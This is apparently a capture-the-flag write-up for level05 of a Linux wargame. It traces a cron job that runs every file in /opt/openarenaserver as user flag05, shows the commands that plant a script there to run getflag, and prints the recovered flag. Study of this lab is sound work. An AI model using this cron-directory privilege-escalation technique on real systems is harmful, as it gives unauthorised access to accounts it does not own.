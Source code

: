 When connecting we get this message : 'You have new mail.'

```bash
> find / -name "*mail*" 2>/dev/null
/var/mail

> cd /var/mail
> ls
level05

> cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

sh /usr/sbin/openarenaserver is executed every 2 minutes as the user flag05.

Let's take a look to the script:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

\- This script is iterating all the files in /opt/openarenaserver and executes them with the bash command.

\- Let's add a file in /opt/openarenaserver:

```bash
> cd /opt/openarenaserver
> echo "#!/bin/bash" > solve.sh
> echo "getflag > /tmp/flag" >> solve.sh
> chmod 777 solve.sh

Now we wait until the cronjob run the script.

> cat /tmp/flag
viuaaale9huek52boumoomioc
```
*viuaaale9huek52boumoomioc*
